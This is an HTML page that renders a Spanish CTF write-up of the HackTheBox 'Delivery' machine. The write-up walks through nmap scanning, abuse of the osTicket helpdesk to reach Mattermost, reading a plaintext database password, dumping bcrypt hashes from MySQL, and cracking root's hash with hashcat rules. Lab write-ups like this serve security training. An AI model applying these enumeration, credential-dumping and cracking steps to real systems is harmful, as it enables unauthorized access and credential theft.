






<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Delivery</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Delivery" de HackTheBox

Caracteristicas:

- External
- TicketTrick
- A04:2021-Insecure Design
- Impersonation 
- Weak Credentials
- A07:2021-Identification And Authentication Failures 
- Public Vulnerabilities
- Extracting database credentials from mattermost  
- Cracking Password using hashcat rule based attack
- Cracking the password using john the ripper

    IP: 10.10.10.222

Escaneo nmap

- nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.149.69

    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-27 18:23 EST
    Nmap scan report for 10.10.10.222
    Host is up (0.048s latency).
    Not shown: 65532 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey:
    |   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
    |   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
    |_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
    80/tcp   open  http    nginx 1.14.2
    |_http-server-header: nginx/1.14.2
    |_http-title: Welcome
    8065/tcp open  unknown


Al lanzar nmap se encontraron tres servicios:

22: SSH; Generalmente no es explotable, pero es bueno saberlo si se obtienen las credenciales.
80: servidor web; Mayor vector de ataque. Necesita una mayor enumeración.
8065: Servicio desconocido; Parece que se ejecutó algún tipo de servicio web según los scripts de nmap.


al agregar el puerto 8065 a la web nos envio a una plataforma de Mattermost 
que es una especie de chat empresarial luego al ver el codigo fuente de la pagina se vieron los dominios.


-   http://helpdesk.delivery.htb/
-   http://entrega.htb:8065/

agregamos ambos enlaces al /etc/hosts ya que no son accesibles.

- agregamos /etc/hosts
10.10.10.222  delivery.htb
10.10.10.222  helpdesk.delivery.htb


- Mesa de ayuda: Sistema de tickets de soporte osTicket
- MatterMost (el servicio desconocido que se ejecuta en 8065)

- nmap --script http-enum -p80 10.10.10.214 -oN webScan

mientras iremos por matterMost



Se trata de un software escrito en go, no se encontro nada en exploitDB 
tenia habilitada la opcion de registrarce pero pide autenticacion, 
asi que por ahora no podemos hacer nada. 

Iremos pór helpdesk



Parece ser un sistema de soporte basado en tickets
no podemos determinar qué versión del software se está ejecutando, hay varios exploits en ExploitDB
pero no son aplicables
asi que habriremos un ticket 

Releyendo el Sección Contáctenos del sitio web principal, dice que para acceder 
al servicio MatterMost, es necesario ponerse en contacto con el servicio de asistencia técnica. 



nos devuelve un mensaje exitoso con un id de ticket y un correo temporal 
    
## Accediendo a MatterMost 

Ingresamos a mattermost y en check ticket status ponemos el id del ticket que nos entregaron



Confirmamos la cuenta



y tras la confirmacion denuevo en helpdesk vemos otro tickets donde se entrega clave y usuario ssh.



y con esto ya tenemos la flag de user.
continuamos enumerando la base de datos que contenia los tickets antes vistos 

maildeliverer@Delivery:/var/www/osticket/upload$ grep -ir dbuser
include/ost-sampleconfig.php:define('DBUSER','%CONFIG-DBUSER');
include/ost-config.php:define('DBUSER','ost_user');
bootstrap.php:        if (!db_connect(DBHOST, DBUSER, DBPASS, $options)) {
define('DBTYPE','mysql');
define('DBHOST','localhost');
define('DBNAME','osticket');
define('DBUSER','ost_user');
define('DBPASS','!H3lpD3sk123!');
}   

esto sin resultados.
 

maildeliverer@Delivery:/var/www/osticket/upload$ mysql -u ost_user -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 320
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| osticket           |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use osticket;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [osticket]> show tables;

[...]

MariaDB [osticket]> select * from ost_user;
+----+--------+------------------+--------+----------------------------------+---------------------+---------------------+
| id | org_id | default_email_id | status | name                             | created             | updated             |
+----+--------+------------------+--------+----------------------------------+---------------------+---------------------+
|  1 |      1 |                1 |      0 | osTicket Support                 | 2020-12-26 09:14:00 | 2020-12-26 09:14:00 |
|  2 |      0 |                2 |      0 | bob                              | 2021-01-05 03:26:08 | 2021-01-05 03:26:08 |
|  3 |      0 |                3 |      0 | 9ecfb4be145d47fda0724f697f35ffaf | 2021-01-05 06:06:28 | 2021-01-05 06:06:28 |
|  4 |      0 |                4 |      0 | c3ecacacc7b94f909d04dbfd308a9b93 | 2021-01-05 06:06:39 | 2021-01-05 06:06:39 |
|  5 |      0 |                5 |      0 | ff0a21fc6fc2488195e16ea854c963ee | 2021-01-05 06:06:45 | 2021-01-05 06:06:45 |
|  6 |      0 |                6 |      0 | 5b785171bfb34762a933e127630c4860 | 2021-01-05 06:06:46 | 2021-01-05 06:06:46 |
|  7 |      0 |                7 |      0 | foxtrot                          | 2021-04-27 14:07:26 | 2021-04-27 14:07:26 |
|  8 |      0 |                8 |      0 | foxtrot_user                     | 2021-04-27 14:22:07 | 2021-04-27 14:22:07 |
|  9 |      0 |                9 |      0 | foxtroto                         | 2021-04-27 14:31:03 | 2021-04-27 14:31:03 |
| 10 |      0 |               10 |      0 | foxtrot                          | 2021-04-27 14:54:04 | 2021-04-27 14:54:04 |
| 11 |      0 |               11 |      0 | hal9kb                           | 2021-04-27 15:26:57 | 2021-04-27 15:26:57 |
+----+--------+------------------+--------+----------------------------------+---------------------+---------------------+

[...]


MariaDB [osticket]> select * from ost_user_account;
+----+---------+--------+--------------------+------+----------+--------------------------------------------------------------+---------+-------+---------------------+
| id | user_id | status | timezone           | lang | username | passwd                                                       | backend | extra | registered          |
+----+---------+--------+--------------------+------+----------+--------------------------------------------------------------+---------+-------+---------------------+
|  1 |       7 |      0 | Africa/Addis_Ababa | NULL | NULL     | $2a$08$.V/t535Q6e0ybqkojE13xesj.emk5.ykkRW.gQdM/qhmWubcNulpe | NULL    | NULL  | 2021-04-27 14:07:26 |
|  2 |       9 |      0 | NULL               | NULL | NULL     | $2a$08$2RX0THiRcuWmPDBVU1.4ZeurpTF49bQXWy/5LkPBDwfaRB62H4lEa | NULL    | NULL  | 2021-04-27 14:53:18 |
+----+---------+--------+--------------------+------+----------+--------------------------------------------------------------+---------+-------+---------------------+

[...]

 maildeliverer | Delivery  | Person   | $2a$08$VlccTgoFaxEaGJnZtWwJBOf2EqMW5L1ZLA72QoQN/TrrOJt9mFGcy | NULL    | maildeliverer@delivery.htb 

el archivo de configuración de MatterMost
que se encuentra en /opt/mattermost/config/config.jsony contiene credenciales para la base 
de datos MySQL El nombre de usuario y la contraseña están en texto 
sin formato y se pueden utilizar para iniciar sesión en la base de datos.

- mysql -u mmuser -D mattermost -p

extraemos la contraseña de root 

MariaDB [mattermost]> select username, password from Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| foxtrot2                         | $2a$10$eCR7u4cUHAHJbQnZY1LK5OMkHSqu.8gC1DBhMtgr3HxZGz75TV6p6 |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| delivery                         | $2a$10$QELx6anUOb8scA.w.tiDoeZSJ1lWq0onfQcrSld0dwdMljPIz0C.K |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| foxtrot_user                     | $2a$10$OKV39TdX5.JAtw2Z7rb/.uIBAHssg5hih8nmvVGtB.CS2Md/z0mSS |
| foxtrot                          | $2a$10$s1wj2Xpo9hwYg5C403GJtuIkXjhquiVzlXPhrEBIndVCJXFGXi4Yq |
| username_foxtrot                 | $2a$10$1yCrOD55v/L3Ksukq.h3IupgThUth587xQRqf/HuXX8VIIXp67cwq |
+----------------------------------+--------------------------------------------------------------+
12 rows in set (0.000 sec)

ahora tenemos el hash de root el cual guardaremos en un archivo para decifrarlo con
hashcat
primero buscaremos el tipo de cifrado, usaremos hashid 

- hashid $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

y obtenemos

[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

es bcrypt 

## Escalada de privilegios

usaremos una regla de github para decifrar con hashcat

https://github.com/NotSoSecure/password_cracking_rules?


- hashcat -a 0 -m 3200 hash.txt list.txt -r OneRuleToRuleThemAll.rule -o cracked

y listo, accedemos como root

- su - root

y accedemos tenemos flag de root.


Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido
a que en algunas de las máquinas que realice no tome los apuntes o no tome capturas de pantalla así que he decidido buscar varios writeups
y agregar lo que este mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía o cualquier error, 
Puedes contactarme a mi correo:

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);
        
        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>